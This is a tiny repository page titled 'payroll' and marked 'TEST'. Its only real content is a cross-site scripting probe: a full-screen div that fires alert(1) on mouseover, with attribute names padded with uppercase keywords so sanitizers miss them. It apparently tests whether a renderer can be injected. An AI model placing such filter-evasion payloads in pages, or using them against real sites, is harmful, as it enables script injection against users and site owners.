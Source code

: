 # payroll
TEST
<div/onmouONMOUSEOVERseover="alert(1)" stSTYLEyle="position:fixed;left:0;top:0;width:9999px;height:9999px;"></div>
